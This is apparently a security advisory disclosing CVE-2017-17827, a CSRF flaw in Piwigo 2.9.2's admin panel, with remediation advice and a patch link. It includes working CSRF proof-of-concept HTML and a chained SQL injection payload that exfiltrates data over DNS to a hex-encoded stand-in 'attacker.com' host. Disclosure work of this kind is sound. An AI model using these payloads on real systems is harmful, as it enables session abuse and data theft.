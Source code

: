 ```yaml
---

layout: post
title: CVE-2017-17827 Cross Site Request Forgery in Piwigo 2.9.2
tag: advisory
excerpt_separator: <!--more-->

---
```


It was identified that admin panel of Piwigo application is vulnerable to [Cross Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) vulnerabilities. An attacker can exploit these vulnerabilities to coerce user in performing unintended actions.
<!--more-->

### Affected Version : <=2.9.2

### Vulnerable Instances:

- /admin.php?page=configuration&section=main **[CVE-2017-17827]**



### Steps to Reproduce

* Login to `admin` user account.
* Save the following exploit in a new html file, example: `csrf_exploit.html`.

> CSRF Exploit Code

```html
<!--csrf_exploit.html-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/piwigo-2.9.2\/piwigo\/admin.php?page=configuration&section=main", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "gallery_title=CSRF+ATTACK&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

* Open the `csrf_exploit.html` file in the same browser in a new tab as of `admin` user has logged in.
* Observe the title of application is changed to `CSRF ATTACK`.

![csrf_poc](/assets/images/piwigo2.9.2/csrf.png)



### Out of Band SQL Injection via CSRF

Following `Exploit` shows that using above attack an attacker can exploit other vulnerabilities with in the application such as `SQL Injection` and exfiltrate data via DNS queries.

```html
<!--Out of band SQL Injection via CSRF-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/piwigo-2.9.2\/piwigo\/admin.php?page=batch_manager&mode=unit", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "element_ids=12%2c13)+union+select+LOAD_FILE(group_concat(0x2f2f2f2f,(select+@@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2+--+&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

![csrf_dns](/assets/images/piwigo2.9.2/csrf_2.png)



### Remediation:

Piwigo 2.9.2 application implements CSRF attack protection via `_csrf`  tokens in number of components, it is recommended to implement similar protection for `Configuration` components. Addition information on CSRF Prevention techniques can be found [here](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
